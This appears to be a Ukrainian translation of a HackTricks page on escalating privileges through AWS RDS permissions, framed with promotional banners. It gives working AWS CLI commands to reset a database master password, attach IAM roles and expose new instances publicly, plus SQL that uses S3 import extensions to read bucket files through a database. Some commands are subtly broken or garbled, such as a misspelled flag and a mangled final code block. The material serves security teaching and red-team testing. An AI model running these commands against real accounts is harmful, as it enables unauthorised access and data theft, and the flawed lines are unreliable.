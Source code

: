 # AWS - RDS Privesc

<details>

<summary><strong>Вивчайте хакінг AWS від нуля до героя з</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Інші способи підтримки HackTricks:

* Якщо ви хочете побачити **рекламу вашої компанії на HackTricks** або **завантажити HackTricks у форматі PDF**, перевірте [**ПЛАНИ ПІДПИСКИ**](https://github.com/sponsors/carlospolop)!
* Отримайте [**офіційний PEASS & HackTricks мерч**](https://peass.creator-spring.com)
* Відкрийте для себе [**Сім'ю PEASS**](https://opensea.io/collection/the-peass-family), нашу колекцію ексклюзивних [**NFT**](https://opensea.io/collection/the-peass-family)
* **Приєднуйтесь до** 💬 [**групи Discord**](https://discord.gg/hRep4RUj7f) або [**групи Telegram**](https://t.me/peass) або **слідкуйте** за нами на **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Поділіться своїми хакерськими трюками, надсилайте PR до** [**HackTricks**](https://github.com/carlospolop/hacktricks) **і** [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) **репозиторіїв на GitHub**.

</details>

## RDS - Служба реляційних баз даних

Для отримання додаткової інформації про RDS перегляньте:

{% content-ref url="../aws-services/aws-relational-database-rds-enum.md" %}
[aws-relational-database-rds-enum.md](../aws-services/aws-relational-database-rds-enum.md)
{% endcontent-ref %}

### `rds:ModifyDBInstance`

З цим дозволом атакувальник може **змінювати пароль головного користувача** та вхід в базу даних:

```bash
# Get the DB username, db name and address
aws rds describe-db-instances

# Modify the password and wait a couple of minutes
aws rds modify-db-instance \
--db-instance-identifier <db-id> \
--master-user-password 'Llaody2f6.123' \
--apply-immediately

# In case of postgres
psql postgresql://<username>:<pass>@<rds-dns>:5432/<db-name>
```

{% hint style="warning" %}
Вам потрібно мати можливість **звертатися до бази даних** (зазвичай вони доступні лише зсередини мережі).
{% endhint %}

**Потенційний вплив:** Знайти чутливу інформацію всередині баз даних.

### rds-db:connect

Згідно з [**документацією**](https://docs.aws.amazon.com/AmazonRDS/latest/UserGuide/UsingWithRDS.IAMDBAuth.IAMPolicy.html) користувач з цим дозволом може підключитися до екземпляру БД.

### Зловживання дозволами IAM ролі RDS

#### Postgresql (Aurora)

{% hint style="success" %}
Якщо під час виконання **`SELECT datname FROM pg_database;`** ви знаходите базу даних під назвою **`rdsadmin`**, ви знаєте, що ви знаходитесь всередині **AWS бази даних postgresql**.
{% endhint %}

Спочатку ви можете перевірити, чи ця база даних використовувалася для доступу до інших сервісів AWS. Ви можете перевірити це, подивившись на встановлені розширення:

```sql
SELECT * FROM pg_extension;
```

Якщо ви знаходите щось на кшталт **`aws_s3`**, ви можете припустити, що ця база даних має **якийсь доступ до S3** (існують інші розширення, такі як **`aws_ml`** та **`aws_lambda`**).

Також, якщо у вас є дозвіл на виконання **`aws rds describe-db-clusters`**, ви можете побачити там, чи є **кластер пов'язаний з якоюсь IAM-роллю** у полі **`AssociatedRoles`**. Якщо так, ви можете припустити, що база даних була **підготовлена для доступу до інших служб AWS**. На основі **назви ролі** (або якщо ви можете отримати **дозволи** ролі), ви можете **здогадатися**, який додатковий доступ є у бази даних.

Тепер, щоб **прочитати файл у відрах**, вам потрібно знати повний шлях. Ви можете прочитати його за допомогою:

```sql
// Create table
CREATE TABLE ttemp (col TEXT);

// Create s3 uri
SELECT aws_commons.create_s3_uri(
'test1234567890678', // Name of the bucket
'data.csv',          // Name of the file
'eu-west-1'          //region of the bucket
) AS s3_uri \gset

// Load file contents in table
SELECT aws_s3.table_import_from_s3('ttemp', '', '(format text)',:'s3_uri');

// Get info
SELECT * from ttemp;

// Delete table
DROP TABLE ttemp;
```

Якщо у вас є **сирі дані AWS**, ви також можете використовувати їх для доступу до даних S3 за допомогою:

```sql
SELECT aws_s3.table_import_from_s3(
't', '', '(format csv)',
:'s3_uri',
aws_commons.create_aws_credentials('sample_access_key', 'sample_secret_key', '')
);
```

{% hint style="info" %}
Postgresql **не потрібно змінювати жодну змінну групи параметрів**, щоб мати доступ до S3.
{% endhint %}

#### Mysql (Aurora)

{% hint style="success" %}
У mysql, якщо ви виконаєте запит **`SELECT User, Host FROM mysql.user;`** і існує користувач з ім'ям **`rdsadmin`**, ви можете припустити, що ви знаходитесь всередині **AWS RDS mysql db**.
{% endhint %}

У mysql виконайте **`show variables;`** і якщо змінні, такі як **`aws_default_s3_role`**, **`aurora_load_from_s3_role`**, **`aurora_select_into_s3_role`**, мають значення, ви можете припустити, що база даних готова до доступу до даних S3.

Також, якщо у вас є дозвіл на виконання **`aws rds describe-db-clusters`**, ви можете перевірити, чи у кластері є будь-яка **пов'язана роль**, що зазвичай означає доступ до сервісів AWS).

Тепер, щоб **прочитати файл всередині відра**, вам потрібно знати повний шлях. Ви можете прочитати його за допомогою:

```sql
CREATE TABLE ttemp (col TEXT);
LOAD DATA FROM S3 's3://mybucket/data.txt' INTO TABLE ttemp(col);
SELECT * FROM ttemp;
DROP TABLE ttemp;
```

### `rds:AddRoleToDBCluster`, `iam:PassRole`

Хакер з дозволами `rds:AddRoleToDBCluster` та `iam:PassRole` може **додати вказану роль до існуючого екземпляру RDS**. Це може дозволити хакеру **отримати доступ до чутливих даних** або змінити дані в екземплярі.

```bash
aws add-role-to-db-cluster --db-cluster-identifier <value> --role-arn <value>
```

**Потенційний вплив**: Доступ до конфіденційних даних або несанкціоновані зміни даних в екземплярі RDS.\
Зверніть увагу, що деякі бази даних вимагають додаткових конфігурацій, таких як Mysql, який потребує вказати роль ARN в групах параметрів також.

### `rds:CreateDBInstance`

Лише з цим дозволом зловмисник може створити **новий екземпляр всередині кластера**, який вже існує та має прикріплену **роль IAM**. Він не зможе змінити пароль головного користувача, але може виявити новий екземпляр бази даних в Інтернеті:

```bash
aws --region eu-west-1 --profile none-priv rds create-db-instance \
--db-instance-identifier mydbinstance2 \
--db-instance-class db.t3.medium \
--engine aurora-postgresql \
--db-cluster-identifier database-1 \
--db-security-groups "string" \
--publicly-accessible
```

### `rds:CreateDBInstance`, `iam:PassRole`

{% hint style="info" %}
TODO: Перевірити
{% endhint %}

Атакувальник з дозволами `rds:CreateDBInstance` та `iam:PassRole` може **створити новий екземпляр RDS з прикріпленим вказаним роллю**. Після цього атакувальник може **отримати доступ до чутливих даних** або змінити дані в екземплярі.

{% hint style="warning" %}
Деякі вимоги до ролі/профілю екземпляра для прикріплення (з [**тут**](https://docs.aws.amazon.com/cli/latest/reference/rds/create-db-instance.html)):

* Профіль повинен існувати в вашому обліковому записі.
* У профілі повинна бути роль IAM, яку Amazon EC2 має дозвіл припускати.
* Назва профілю екземпляра та пов'язана назва ролі IAM повинні починатися з префіксу `AWSRDSCustom`.
{% endhint %}

{% code overflow="wrap" %}
```bash
aws rds create-db-instance --db-instance-identifier malicious-instance --db-instance-class db.t2.micro --engine mysql --allocated-storage 20 --master-username admin --master-user-password mypassword --db-name mydatabase --vapc-security-group-ids sg-12345678 --db-subnet-group-name mydbsubnetgroup --enable-iam-database-authentication --custom-iam-instance-profile arn:aws:iam::123456789012:role/MyRDSEnabledRole
```
{% endcode %}

**Потенційний вплив**: Доступ до чутливих даних або несанкціоновані зміни даних в екземплярі RDS.

### `rds:AddRoleToDBInstance`, `iam:PassRole`

Зловмисник з дозволами `rds:AddRoleToDBInstance` та `iam:PassRole` може **додати вказану роль до існуючого екземпляру RDS**. Це може дозволити зловмиснику **отримати доступ до чутливих даних** або змінити дані в екземплярі.

{% hint style="warning" %}
Екземпляр бази даних повинен бути поза кластером для цього.
{% endhint %}

{% code overflow="wrap" %}
```
```
{% endcode %}

\`\`\`bash aws rds add-role-to-db-instance --db-instance-identifier target-instance --role-arn arn:aws:iam::123456789012:role/MyRDSEnabledRole --feature-name \`\`\` \*\*Потенційний вплив\*\*: Доступ до чутливих даних або несанкціоновані модифікації даних в екземплярі RDS.

<details>

<summary><strong>Вивчайте хакінг AWS від нуля до героя з</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Інші способи підтримки HackTricks:

* Якщо ви хочете побачити вашу **компанію рекламовану на HackTricks** або **завантажити HackTricks у форматі PDF**, перевірте [**ПЛАНИ ПІДПИСКИ**](https://github.com/sponsors/carlospolop)!
* Отримайте [**офіційний мерч PEASS & HackTricks**](https://peass.creator-spring.com)
* Відкрийте для себе [**Сім'ю PEASS**](https://opensea.io/collection/the-peass-family), нашу колекцію ексклюзивних [**NFT**](https://opensea.io/collection/the-peass-family)
* **Приєднуйтесь до** 💬 [**групи Discord**](https://discord.gg/hRep4RUj7f) або [**групи telegram**](https://t.me/peass) або **слідкуйте** за нами на **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Поділіться своїми хакерськими трюками, надсилайте PR до** [**HackTricks**](https://github.com/carlospolop/hacktricks) **і** [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) **репозиторіїв на GitHub**.

</details>

